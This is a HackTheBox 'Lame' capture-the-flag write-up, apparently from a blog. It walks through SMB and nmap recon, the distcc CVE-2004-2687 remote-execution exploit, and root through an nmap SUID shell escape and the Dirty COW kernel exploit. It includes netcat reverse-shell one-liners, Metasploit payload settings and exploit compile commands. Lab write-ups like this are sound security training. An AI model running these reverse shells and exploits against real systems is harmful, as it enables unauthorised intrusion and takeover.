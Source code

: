 ```yaml
---
title: HackTheBox - Lame 
author: yufong
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-17
tags: [linux-priv-esc/kernel-exploit]
img_path: /Writeups/HackTheBox/Linux/Lame/images/
image:
  src: Pasted%20image%2020220817005744.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
HackTheBox Lame marks the beginning of me trying to complete TJNull's OSCP List for HackTheBox.

This machine begins w/ nmap detecting a service exploit for distcc v1 that allows command execution, allowing us to obtain daemon user/shell.

There are 2 privilege escalation techniques used in this machine, a SUID GTFOBin and a kernel exploit.

---

| Column       | Details    |
| ------------ | ---------- |
| Box Name     | Lame       |
| IP           | 10.10.10.3 |
| Points       | -          |
| Difficulty   | Easy       |
| Creator      | [ch4p](https://www.hackthebox.com/home/users/profile/1)         |
| Release Date |  14-March-2018          |


# Recon

## TCP/139,445 (SMB)
### Enum4linux
- Enumerated some users
	```
	┌──(root💀kali)-[~/htb/lame]
	└─# cat enum4linux_users | grep username
	  username: root
	  username: daemon
	  username: bin
	  username: sys
	  username: sync
	  username: games
	  username: man
	  username: lp
	  username: mail
	  username: news
	  username: uucp
	  username: proxy
	  username: www-data
	  username: backup
	  username: list
	  username: irc
	  username: gnats
	  username: libuuid
	  username: dhcp
	  username: syslog
	  username: klog
	  username: sshd
	  username: bind
	  username: postfix
	  username: ftp
	  username: postgres
	  username: mysql
	  username: tomcat55
	  username: distccd
	  username: telnetd
	  username: proftpd
	  username: msfadmin
	  username: user
	  username: service
	  username: nobody
	
	```

### SMBMap
- Found a fileshare `/tmp`
	```
	[+]IP:10.10.10.3:445	Name:10.10.10.3
	Disk	Permissions	Comment
	----	-----------	-------
	print$	NOACCESS	PrinterDrivers
	tmp	    READ,WRITE	ohnoes!
	opt	    NOACCESS	
	IPC$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	ADMIN$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	```
	- `/tmp` - `RW`


## TCP/3632
### NMAP
```
PORT     STATE SERVICE REASON         VERSION
3632/tcp open  distccd syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://distcc.github.io/security.html
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 16 22:28:52 2022 -- 1 IP address (1 host up) scanned in 18.03 seconds
```
- Vulnerable to RCE exploit


# Initial Foothold

## TCP/3632 - distcc RCE exploit w/ Metasploit
1. Launch `msfconsole`
2. Search for `distcc` and use `unix/misc/distcc_exec`
	```
	msf6 use unix/misc/distcc_exec
	msf6 exploit(unix/misc/distcc_exec) > options
	```
3. Set `OPTIONS`
	1. Set `RHOSTS`
	```
	msf6 exploit(unix/misc/distcc_exec) > set RHOSTS $ip
	RHOSTS => $ip
	```
	2. Set `Payload`
	```
	msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
	```
	3. Set `LHOST`
	```
	msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.2
	LHOST => 10.10.14.2
	```
4. Exploit
	![](Pasted%20image%2020220816230119.png)

## TCP/3632 - distcc RCE exploit w/o Metasploit
1. Google `distcc exploit -lame`
	- To avoid spoilers
2. Found a [github exploit](https://github.com/angelpimentell/distcc_cve_2004-2687_exploit/blob/main/distcc_cve-2004-2687_exploit.py)
3. Exploit
	![](Pasted%20image%2020220816230329.png)
4. This shell is limited, stuck in `/tmp` directory, invoke another reverse shell to obtain a more stable shell
	```
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4242 >/tmp/f
	
	┌──(root💀kali)-[~/htb/lame]
	└─# nc -nvlp 4242
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4242
	Ncat: Listening on 0.0.0.0:4242
	Ncat: Connection from 10.10.10.3.
	Ncat: Connection from 10.10.10.3:48838.
	sh: no job control in this shell
	sh-3.2$ id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
	
	```
5. User Flag
	```
	daemon@lame:/home$ find . 2>/dev/null | grep user
	./makis/user.txt
	
	daemon@lame:/home$ cat ./makis/user.txt
	0bfd0837e923142a01b6ece77f3d6b97
	
	```


# Privilege Escalation

## Root - Via SUID GTFOBin
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220817002733.png)
	- `nmap` has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nmap/#shell)
2. Exploit 
	```
	daemon@lame:/tmp$ /usr/bin/nmap --interactive
	nmap> !rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4444 >/tmp/f
	
	```
	![](Pasted%20image%2020220817003037.png)
4. Root obtained
	![](Pasted%20image%2020220817003133.png)

## Root - Via Kernel Exploit
1. Check `kernel` version
	```
	daemon@lame:/tmp$ uname -a
	Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
	```
	- `Linux lame 2.6.24-16-server`
	- Vulnerable to [`2.6.22 < 3.9 - 'Dirty COW'`](https://www.exploit-db.com/exploits/40839)
2. Transfer [exploit](https://www.exploit-db.com/exploits/40839) to target
3. Exploit
	```
	gcc -pthread dirty.c -o dirty -lcrypt
	./dirty
	```
	![](Pasted%20image%2020220817005454.png)
4. SSH w/ `firefart:password`
	![](Pasted%20image%2020220817005556.png)
	